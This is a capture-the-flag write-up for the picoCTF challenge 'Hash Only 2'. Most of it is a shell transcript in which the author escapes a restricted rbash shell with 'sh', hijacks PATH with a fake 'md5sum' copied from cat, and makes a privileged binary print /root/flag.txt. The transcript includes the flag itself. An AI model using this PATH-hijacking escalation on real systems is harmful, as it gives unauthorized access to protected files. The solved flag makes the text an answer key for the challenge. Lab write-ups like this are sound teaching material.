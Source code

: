 
# Hash Only 2

`Author: Junias Bonou`

> Description : Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!


Given in challenge after starting instance - 
```
SSH command - ssh ctf-player@rescued-float.picoctf.net -p <PORT> 

SSH password - <PASSWORD> 
```


## Solution

```bash
$ ssh ctf-player@rescued-float.picoctf.net -p <PORT> 
ctf-player@rescued-float.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.8.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
ctf-player@pico-chall$ cd
-rbash: cd: restricted

ctf-player@pico-chall$ which flaghasher
/usr/local/bin/flaghasher

ctf-player@pico-chall$ sh

\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ which cat
/usr/bin/cat

\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ cp $(which cat) md5sum

\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ chmod +x ./md5sum

\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ ls
md5sum

\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ export PATH=.:$PATH

\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ ./md5sum flaghasher
./md5sum: flaghasher: No such file or directory

\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ which flaghasher
/usr/local/bin/flaghasher


\[\e[35m\]\u\[\e[m\]@\[\e[35m\]pico-chall\[\e[m\]$ /usr/local/bin/flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_9bde33ed}

```

Given a restricted shell.

The program `flaghasher` exist just as the previous chall (hash-only-1)[https://tusharr.xyz/shetcode/writeups/picoctf/pico-ctf-hash-only-1/]

The [restricted shell](https://0xffsec.com/handbook/shells/restricted-shells/) is a Unix shell that restricts some of the capabilities available to an interactive user session, or to a shell script, running within it.

Now escaping the restricted shell is simple, we can just use the `sh` command and can get a normal shell.

Now assuming the flaghasher binary at `/usr/local/bin/flaghasher` is similar to previous flaghasher binary, as in (hash-only-1)[https://tusharr.xyz/shetcode/writeups/picoctf/pico-ctf-hash-only-1/], we can craft our exploit same as previous one.

We'll create a fake `md5sum` executable add it's directory path to list of paths in `$PATH` environment variable using `export PATH=.:$PATH` command.

This time it has path to `cat` command. So instead of performing actual MD5 hashing we can trick `flaghasher` to execute `cat` instead of th real `md5sum` command.

And hence get our flag printed !

